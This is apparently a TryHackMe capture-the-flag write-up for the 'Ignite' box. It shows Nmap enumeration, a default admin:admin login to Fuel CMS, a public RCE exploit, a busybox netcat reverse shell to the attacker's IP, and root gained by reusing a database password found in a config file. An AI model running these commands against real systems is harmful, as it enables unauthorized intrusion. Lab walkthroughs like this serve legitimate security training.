 # THM - Ignite

### Ip: 10.10.181.250
### Name: Ignite
### Rating: Easy

------------------------------------------------

![thm_ignite_pic.png](../assets/ignite_assets/thm_ignite_pic.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.250
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-19 16:05 CST
Nmap scan report for 10.10.181.250
Host is up (0.13s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.63 seconds
```

Looking at the page on port 80 wee see it is running Fuel cms v 1.4.

![thm_ignite_site.png](../assets/ignite_assets/thm_ignite_site.png)

We also notice that Nmap found a robots.txt page with the `/fuel` endpoint.

Heading to that page we find a simple login:

![thm_ignite_login.png](../assets/ignite_assets/thm_ignite_login.png)

We find we can login with `admin:admin`

![thm_ignite_in.png](../assets/ignite_assets/thm_ignite_in.png)

Looking for exploits I find: https://www.exploit-db.com/exploits/50477

### Exploitation

We can fire the exploit, with no changes needed to the code, with:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ python exploit.py -u http://10.10.181.250     
[+]Connecting...
Enter Command $whoami
systemwww-data


Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Which gives us a pseudo shell to work with, even if it is a bit wonky.

Let's issue a reverse shell one-line and catch a proper shell:

```
Enter Command $busybox nc 10.6.72.91 443 -e /bin/bash
```

This catches a shell back in our listener:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.250] 51170
hostname
ubuntu
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

One the shell is fully stabilized we can grab the first flag:

![thm_ignite_user.png](../assets/ignite_assets/thm_ignite_user.png)

### Privilege Escalation

Browsing the system looking for config files, we find an interesting password in the database.php file:

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```

Fortunately for us, this password was reused by root on the target, and we can use it to `su -` and drop into a root shell, where we can then grab the final flag:

![thm_ignite_root.png](../assets/ignite_assets/thm_ignite_root.png)

Thanks for following along!

-Ryan

-----------------------------------------------
